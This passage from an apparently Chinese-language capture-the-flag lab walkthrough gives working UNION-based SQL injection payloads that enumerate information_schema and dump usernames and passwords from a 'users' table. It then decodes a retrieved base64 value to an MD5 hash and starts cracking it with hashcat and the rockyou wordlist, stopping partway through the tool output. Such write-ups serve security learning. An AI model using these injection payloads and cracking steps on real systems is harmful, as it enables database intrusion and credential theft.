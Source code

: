 -   ![image-20230609100519574](https://raw.githubusercontent.com/r0o983/images/main/image-20230609100519574.png)

-   查看当前的库信息，版本信息，用户信息`" union select version(),database(),user() -- `

-   ![image-20230609100723443](https://raw.githubusercontent.com/r0o983/images/main/image-20230609100723443.png)

-   列出当前所有表的信息，通过读取`information_schema`表 ` " union select table_schema,table_name,3 from information_schema.tables; -- - `

-   ![image-20230726104342105](https://raw.githubusercontent.com/r0o983/images/main/image-20230726104342105.png)

-   查找当前数据库的表`seth`,读取具体信息`" union select table_name,2,3 from information_schema.tables='seth'; -- - `

-   ![image-20230728185132250](https://raw.githubusercontent.com/r0o983/images/main/image-20230728185132250.png)

-   查询当前`users`表的字段，`" union select column_name,2,3 from information_schema.columns where table_schema='seth' and  table_name='users'; -- -`

-   ![image-20230728185342962](https://raw.githubusercontent.com/r0o983/images/main/image-20230728185342962.png)

-   根据回显位置直接查出`id,user,pass`信息`" union select id,user,pass from users -- - `

-   ![image-20230728185518364](https://raw.githubusercontent.com/r0o983/images/main/image-20230728185518364.png)

-   获得ramses用户的密码：`YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE`

-   使用kali自带的解码工具或者直接浏览器搜索解密即可得到以下字符串

-   ```shell
    ❯ echo -n "YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE" | base64  -d
    c6d6bd7ebf806f43c76acc3681703b81
    ```

-   使用md5将字符串进行解密，使用hashcat或者john都可以进行破解，语法类似效果相同。

-   ```shell
    hashcat -m 0 -a 0 crash /usr/share/wordlists/rockyou.txt     
    hashcat (v6.2.6) starting
    
    OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
    ==================================================================================================================================================
    * Device #1: pthread-sandybridge-Intel(R) Core(TM) i5-10500 CPU @ 3.10GHz, 2910/5884 MB (1024 MB allocatable), 4MCU
    
    Minimum password length supported by kernel: 0
    Maximum password length supported by kernel: 256
    
    Hashes: 1 digests; 1 unique digests, 1 unique salts
    Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
    Rules: 1
    